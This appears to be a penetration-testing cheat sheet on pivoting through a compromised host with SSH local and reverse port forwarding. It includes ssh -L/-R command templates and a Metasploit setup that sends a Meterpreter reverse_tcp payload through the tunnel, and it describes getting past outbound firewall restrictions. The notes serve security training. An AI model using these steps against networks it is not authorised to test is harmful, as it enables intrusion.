

Local/Reverse Port Forwarding with ssh
Requirements:
• SSH server installed on pivot machine
• Connectivity to SSH port (22) on the pivot host with
credentials for user@pivotSystem
CONS:
• We can targets only a single port
SSH not only allows us to establish a secure
shell with the target system, but it can be used to tunnel other traffic as well. And it gives us the benefits of
encryption!
Local Port Forwarding
Useful if we have compromised the Pivot machine and found credentials for the SSH-service for access
to user@<IPpivotSystem>
Establish a SSH connection(logging in as
user@<IPpivotSystem>) with the pivotSystem, and forward all the traffic from the local <AttackerPort> to
host <TargetIP> on port <TargetPort>, which can be reached from the pivotSystem
ssh -L <AttackerInterfaceIP>:<AttackerPort>:<TargetIP>:<TargetPort> user@<IPpivotSystem>
or if we want that our Attacker machine will listen on all interfaces neglect
<AttackerInterfaceIP>
ssh -L :<AttackerPort>:<TargetIP>:<TargetPort> user@<IPpivotSystem>
◇
Nmap Using Nmap(from Your Linux machine) with SSH local port forwarding works,
but SSH imposes limitations. Since SSH directs all traffic to a single port, scans cannot be done to other ports. To
do that is better make an
SSH
Dynamic Port forwarding ◇
Meterpreter Session When we have to setup an exploit
for the
TargetIP, after that we had setup ssh -L we have to setup metasploit like that:
msf > use <exploit>
msf > set PAYLOAD windows/meterpreter/reverse_tcp #connection back from our TargetIP
msf > set LHOST YOUR_LINUX_IP_ADDRESS
msf > set RHOST 127.0.0.1 #the SSH port forwarder is listening on all our interfaces
msf > set RPORT <AttackerPort> #the SSH port forwarder is listening on our port <AttackerPort>
The metasploit session connect through our host (127.0.0.1) on TCP port <AttackerPort>. The SSH
port forwarder is listening on port <AttackerPort> and will forward the traffic through the SSH tunnel to the
<IPpivotSystem>. Since <IPpivotSystem> can access <TargetIP> on TCP port <TargetPort>, the
payload delivery will be successful
Reverse(Remote) Port Forwarding
This makes it
appear to the Target that the service is running on the <pivotSystem> on the <PivotPort>
Reverse
Port Forwarding is similar to the Local Port Forwarding but instead of allowing an attacker to talk to an internal
host from the outside; it allows an internal host to bypass outbound firewall restrictions to talk outside of the
network.
Establish a SSH connection(logging in as user@pivotSystem) with the pivotSystem, and forward all
connection attempts to the <PivotPort> to host <AttackerLoopbackIP> on port <AttackerPort>
ssh -o GatewayPorts=yes -R :<PivotPort>:<AttackerLoopbackIP>:<AttackerPort> user@<IPpivotSystem>
If the target vist http://<PivotAddress>:<PivotPort> this request will be handled by our
attacker machine
example:
ssh -o GatewayPorts=yes -R :8000:127.0.0.1:80 user@<IPpivotSystem>
-o GatewayPorts=yes → To bind to all interfaces, allows anyone to connect to the
<pivotPort>
WARNINGIn
Reverse(Remote) Port Forwarding 127.0.0.1 or localhost refers to the
machine that initiated the ssh connection(in our case the Attacker machine)
In
Local Port Forwarding(in meterpreter) 127.0.0.1 or localhost refers to
the machine through which the ssh connection pass(in our case the Pivot machine)
Bibliography:
•
https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot•
https://zaiste.net/posts/ssh-port-forwarding/•
https://pen-testing.sans.org/resources/papers/gwapt/tunneling-pivoting-web-application-penetration-testing-120229
{kind=link}